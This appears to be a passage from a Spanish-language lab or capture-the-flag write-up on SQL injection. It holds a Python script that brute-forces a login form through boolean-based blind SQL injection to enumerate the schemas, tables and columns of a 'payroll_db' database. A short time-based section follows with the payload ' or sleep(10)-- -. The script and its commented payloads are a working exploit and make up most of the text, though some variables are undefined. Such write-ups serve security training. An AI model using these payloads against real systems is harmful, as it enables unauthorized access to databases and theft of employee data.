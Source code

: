 ```python
# ' or (select hex(substring(database(),%d,1)) limit 1)=hex('%s')-- -
# Enumeración del resto de esquemas:
# ' or (select hex(substring((group_concat(schema_name)),%d,1)) from information_schema.schemata)=hex('%s')-- -
# Enumeracion de las tablas payroll_db
# ' or (select hex(substring((group_concat(table_name)),%d,1)) from information_schema.tables where table_schema='payroll_db')=hex('%s')-- -
# Enumeracion de las columnas
# ' or (select hex(substring((group_concat(column_name)),%d,1)) from information_schema.columns where table_schema='payroll_db' and table_name='employ  ee')=hex('%s')-- -

def makeRequest():
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando Fuerza bruta")
    
    time.sleep(2)
    
    username = ''
    p2 = log.progress("Username")

    for position in range(1,100):
        for character in characters:
            post_data = {
                    'username':"""' or (select hex(substring((group_concat(column_name)),%d,1)) from information_schema.columns where table_schema='payroll_db' and table_name='employee')=hex('%s')-- -""" %(position, character),
                    'password': 'test'
                }
            p1.status(post_data['username'])


            r = requests.post(url=login_url, data=post_data)

            if r.text == "1":
                username += character
                p2.status(username)
                break

if __name__ == '__main__':

    makeRequest()
```

### SQLI Time Based

Podemos comprobar que es vulnerable con el payload en el campo username: **' or sleep(10)-- -** y veremos que la web tarda 10 segundos en responder.

Hay varias formas de aprovecharse de esto, podemos suponer que existe una tabla llamada **username** con un campo llamado **users** y empezar por ahi. Sino podriamos empezar enumerando esquemas, luego tablas, columnas, etc. Tal y como hemos hecho antes.
